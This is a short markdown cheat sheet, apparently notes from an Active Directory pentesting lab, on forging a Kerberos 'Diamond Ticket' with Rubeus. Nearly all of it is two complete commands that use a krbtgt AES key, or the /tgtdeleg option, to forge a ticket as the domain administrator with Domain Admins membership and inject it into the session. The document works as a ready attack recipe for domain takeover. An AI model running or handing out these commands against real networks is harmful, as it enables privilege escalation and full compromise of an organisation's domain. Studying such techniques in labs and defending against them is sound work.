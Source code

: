 # Diamond Ticket

### Rubeus.exe

#### We would still need krbtgt AES keys. Use the following Rubeus command to create a diamond ticket (note that RC4 or AES keys of the user can be used too)

```
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /user:studentuserx /password:studentuserxpassword /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

#### We could also use /tgtdeleg option in place of credentials in case we have access as a domain user

```
Rubeus.exe diamond /krbkey:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:us.techcorp.local /dc:US-DC.us.techcorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
